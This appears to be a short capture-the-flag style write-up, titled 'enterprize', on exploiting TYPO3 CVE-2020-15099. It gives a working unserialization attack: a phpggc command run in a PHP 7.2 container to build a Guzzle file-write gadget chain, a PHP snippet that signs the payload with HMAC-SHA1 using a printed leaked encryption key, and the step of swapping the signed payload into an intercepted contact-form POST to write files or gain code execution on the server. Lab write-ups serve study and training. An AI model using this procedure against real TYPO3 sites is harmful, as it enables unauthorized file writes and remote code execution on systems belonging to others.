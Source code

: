 # enterprize
TYPO3:  CVE-2020-15099

An un-serialization exploit where our provided serialized final payload can be used to write files on the server or inject RCE. There needs to be a HMAC hash appended to the payload which is checked by the server, it can be generated with our partial serialized payload and an “encryption key” found from old config files.

We need to generate a gadget chain for file write and we can use `phpgcc` for that, one snag here is that the php version(example 7.2) used to generate the payload should match the one used by the server. This can be found from trial and error or other leaks from the webserver(info functions/erros/disclosures) etc.,

We can use a docker container to match the php version like

```text-plain
docker run -it -v "$PWD":/usr/src/myapp -w /usr/src/myapp php:7.2-cli phpggc/phpggc -b -f Guzzle/FW1 /var/wwww/html/public/fileadmin/_temp_/payload.php payload.php 
```

(-b is for base64 encoding, -f is fast destruct, the payload used, the remote file path where to write the payload file and the local path for our payload)

This will generate a seriazlized payload but we need a hmac hash(using sha1 which can be found by reading the github code files of the CMS) at the end of it that is generated with the leaked encryption key.

```text-plain
<?php
$sig=hash_hmac('sha1',$argv[1],"712dd4d9c583482940b75514e31400c11bdcbc7374c8e62fff958fcd80e8353490b0fdcf4d0ee25b40cf81f523609c0b");
print($sig);
?>
```

Now, we need to intercept a post form request and replace our final payload(serialized+hmac hash) with the contact form data.